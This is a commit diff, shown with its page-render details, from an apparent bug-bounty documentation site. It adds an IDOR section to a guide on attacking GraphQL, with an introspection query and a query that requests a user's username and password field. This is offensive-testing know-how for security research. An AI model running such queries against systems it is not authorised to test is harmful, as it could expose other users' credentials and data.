

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/attacking-graphql.md, in a window 1280 px wide and 1400 px high, scrolled down 3075 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3440 px from its top, so only the background shows below that.

Commit message:
update graphql page

````diff
--- a/docs/bug-bounty-guide/attacking-graphql.md
+++ b/docs/bug-bounty-guide/attacking-graphql.md
@@ -135,3 +135,39 @@
 cd graphw00f
 python3 main.py -f -d -t http://STMIP:STMPO
 ```
+
+## Insecure Direct Object Reference (IDOR)
+
+### Identifying IDOR
+
+Replace a query value with another we know exist:
+![identifying idor](../images/idor_2.png)
+
+### Exploiting IDOR
+
+Replace query with introspection query to determine what data can be accessed (escape quotation marks on the below query)
+```json
+{
+  __type(name: "UserObject") {
+    name
+    fields {
+      name
+      type {
+        name
+        kind
+      }
+    }
+  }
+}
+```
+
+Adjust query to test if previously determined data fields are accessible
+
+```json
+{
+  user(username: "test") {
+    username
+    password
+  }
+}
+```
````
Also changed, not shown: docs/images/idor_2.png (added).
